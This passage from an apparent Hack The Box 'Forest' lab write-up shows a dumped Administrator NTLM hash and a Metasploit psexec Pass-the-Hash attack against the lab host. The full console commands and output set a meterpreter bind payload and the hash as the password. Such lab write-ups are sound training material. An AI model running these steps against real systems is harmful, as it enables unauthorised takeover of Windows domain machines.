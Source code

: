 **htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::**

First thought of some people would be to try and crack this, but how about using it as is? There are different ways, one being through Metasploit's psexec and through one of the Impacket's SMB or Psexec scripts; I went for Metasploit. In escence, both will be doing a **Pass-the-Hash** attack.

To do this, we only need the following portion of the Administrator dump used as password:
**aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6**


### METASPLOIT
```
root@kali:~/Documents/HTB-Labs/Forest# msfconsole
                                                  
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%     %%%         %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %  %%%%%%%%   %%%%%%%%%%% https://metasploit.com %%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%  %%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%    %%   %%%%%%%%%%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%  %%%%%
%%%%  %%  %%  %      %%      %%    %%%%%      %    %%%%  %%   %%%%%%       %%
%%%%  %%  %%  %  %%% %%%%  %%%%  %%  %%%%  %%%%  %% %%  %% %%% %%  %%%  %%%%%
%%%%  %%%%%%  %%   %%%%%%   %%%%  %%%  %%%%  %%    %%  %%% %%% %%   %%  %%%%%
%%%%%%%%%%%% %%%%     %%%%%    %%  %%   %    %%  %%%%  %%%%   %%%   %%%     %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%%%%% %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%          %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


       =[ metasploit v5.0.72-dev                          ]
+ -- --=[ 1962 exploits - 1095 auxiliary - 336 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

msf5 > 
```

#### Using the Exploit 'exploit/windows/smb/psexec' and the Payload 'windows/meterpreter/bind_tcp'
```
msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > set SMBDomain htb.local
SMBDomain => htb.local
msf5 exploit(windows/smb/psexec) > set SMBUser Administrator
SMBUser => Administrator
msf5 exploit(windows/smb/psexec) > set LPORT 4464
LPORT => 4464
msf5 exploit(windows/smb/psexec) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf5 exploit(windows/smb/psexec) > set RPORT 445
RPORT => 445
msf5 exploit(windows/smb/psexec) > set DB_ALL_CREDS false
DB_ALL_CREDS => false
msf5 exploit(windows/smb/psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
SMBPass => aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
msf5 exploit(windows/smb/psexec) > set RHOST 10.10.10.161
RHOST => 10.10.10.161
msf5 exploit(windows/smb/psexec) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
```